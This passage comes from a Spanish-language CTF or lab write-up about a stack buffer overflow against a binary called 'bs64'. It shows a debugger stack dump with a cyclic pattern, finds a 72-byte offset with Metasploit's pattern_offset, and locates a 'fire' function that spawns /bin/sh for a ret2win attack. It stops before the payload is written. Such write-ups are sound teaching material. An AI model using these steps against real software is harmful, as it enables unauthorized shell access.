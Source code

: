 ```

──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffb1abf3c8 ◂— 0x6341356341346341 ('Ac4Ac5Ac')
01:0008│     0x7fffb1abf3d0 ◂— 0x4138634137634136 ('6Ac7Ac8A')
02:0010│     0x7fffb1abf3d8 ◂— 0x3164413064413963 ('c9Ad0Ad1')
03:0018│     0x7fffb1abf3e0 ◂— 0x6441336441326441 ('Ad2Ad3Ad')
04:0020│     0x7fffb1abf3e8 ◂— 0x4136644135644134 ('4Ad5Ad6A')
05:0028│     0x7fffb1abf3f0 ◂— 0x3964413864413764 ('d7Ad8Ad9')
06:0030│     0x7fffb1abf3f8 ◂— 0x6541316541306541 ('Ae0Ae1Ae')
07:0038│     0x7fffb1abf400 ◂— 0x4134654133654132 ('2Ae3Ae4A')
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0         0x4013d8 main+58
   1 0x6341356341346341 None
   2 0x4138634137634136 None
   3 0x3164413064413963 None
   4 0x6441336441326441 None
   5 0x4136644135644134 None
   6 0x3964413864413764 None
   7 0x6541316541306541 None
───────────────────────────────────────────────────────────────────────────────────
```

Vemos que el `ret` esta en `0x6341356341346341` por lo que sacaremos el `offset` con dicha direccion.

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x6341356341346341
```

Info:

```
[*] Exact match at offset 72
```

El `offset` vemos que es de `72 bytes`.

### Explotación

> Maquina victima

```shell
objdump -d bs64 | grep fire
```

Info:

```
000000000040136a <fire>:
```

Con esto sabemos que tendremos que rellenar el `EIP` con esa direccion de memoria para que se ejecute el `/bin/sh` que contiene dicha funcion `fire`.

Como esta en `little-endian` tendremos que darle la vuelta de la siguiente forma:
